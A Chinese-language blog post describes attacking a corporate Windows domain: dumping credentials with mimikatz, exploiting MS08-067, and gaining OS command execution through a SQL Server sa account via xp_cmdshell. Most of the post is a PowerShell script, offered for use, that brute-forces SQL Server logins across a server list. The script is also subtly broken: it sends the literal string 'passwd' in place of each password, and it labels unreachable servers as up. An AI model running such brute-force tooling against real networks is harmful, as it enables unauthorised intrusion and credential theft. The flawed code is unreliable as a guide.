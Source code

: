```yaml
---
layout: post
title: 内网域渗透-sqlserver爆破
author: alpha1e0
categories: 安全技术
tages: 安全技术
---
```


## 0x00内网渗透思路

内网渗透以取得域控账户为最终目的。常规思路：入侵某些服务器或主机，通过mimikatz倒域账户，查找敏感信息（如邮件）查找其他域账户等，反复迭代。

入侵服务器常规的思路：

1. 通过弱口令破解操作系统登录口令。
2. 通过MS08-067等漏洞渗透。
3. 通过web漏洞渗透web服务器。
4. 通过弱口令破解sqlserver登录口令。

## 通过弱口令破解sqlserver登录口令。
由于域环境中补丁统一部署、域账户复杂度限制，因此1和2两种思路很难实施。在实际操作中最有效的石sqlserver的弱口令和web服务器渗透。

本文介绍sqlserver弱口令破解。在获取sa账户后可以使用“exec xp_cmdshell”直接执行Administrator权限的命令（一般情况下sa账户和administrator账户权限相同）。

[这篇文章][1]介绍了通过LDAP获取内网sqlserver服务器的方法，可获取一个sqlserver列表。我写了一个脚本能够对这个列表进行暴力破解。

破解脚本如下：


{% highlight powershell %}
Write-Host "[-] Usage: brute.ps1 server.txt user.txt passwd.txt"

$serverFile = Get-content $args[0]
$userFile = Get-content $args[1]
$passwdFile = Get-content $args[2]

$serverList = @()
$result = @()

Write-Host "[-] Finding alive server--------------------------."
Foreach ($server in $serverFile) {
	$pos = $server.Indexof(".")
	$serverName = $server.Substring(0,$pos)
	if((Test-Connection -Cn $serverName -BufferSize 32 -Count 1 -ea 0 -quiet)) {
		Write-Host "[+] Up $server"
		$serverList += $server
	} else {
		Write-Host "[+] Up $server"
	}
}

Write-Host "[-] Begin burting--------------------------."
Foreach ($user in $userFile) {
	Foreach ($passwd in $passwdFile) {
		Foreach ($server in $serverList) {
			$con = New-Object System.Data.SqlClient.SqlConnection
			$con.ConnectionString = "Server=$server;Database=master;User ID='$user';Password='passwd';Connect Timeout=2;"
			Try {
				$con.Open()
				Write-Host "[+] Success: $server; $user; $passwd."
				$result += "$server; $user; $passwd"
			}
			Catch {
				Write-Host "[+] Failed: $server; $user; $passwd."
			}
		}
	}
}

$result | out-file "result.txt"
{% endhighlight %}

在powershell中运行即可

[1]: http://drops.wooyun.org/pentesting/2125